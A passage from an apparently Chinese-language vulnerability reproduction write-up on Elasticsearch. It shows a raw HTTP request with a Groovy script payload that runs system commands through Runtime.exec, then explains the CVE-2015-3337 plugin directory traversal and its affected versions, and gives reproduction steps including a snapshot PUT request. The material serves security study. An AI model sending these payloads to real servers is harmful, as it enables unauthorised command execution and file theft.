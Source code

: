 ```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156




{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOJGAwMkYiakeYGzxsMicDZVzER5j5FRXmVmGJaYAVoegpoEUCTrTyZa2A/640?wx_fmt=png)

**ElasticSearch 插件目录穿越漏洞（CVE-2015-3337）**

**漏洞原理**

在安装了具有 “site” 功能的插件以后，插件目录使用../ 即可向上跳转，导致目录穿越漏洞，可读取任意文件。

没有安装任意插件的 elasticsearch 不受影响。

**影响版本**

ElasticSearch 1.4.5 以下 / 1.5.2 以下

**漏洞复现**

查看所有已安装的插件：/_cat/plugins

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOjosFnw6rsazbmCzKBjHkUlKxic6GPKpplPnGwu7ClD04Ytg01RliaWuA/640?wx_fmt=png)

测试环境默认安装了一个插件：elasticsearch-head

head 插件
-------

head 插件提供了 elasticsearch 的前端页面，访问：http://your-ip:9200/_plugin/head/

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOic0nMYic5IH8QSIGJZveRiapbBLZw1mVqL1S4WcoHKhGCgH0SdcNyPSicQ/640?wx_fmt=png)

读取任意文件（不要在浏览器访问）：

访问

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108




{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```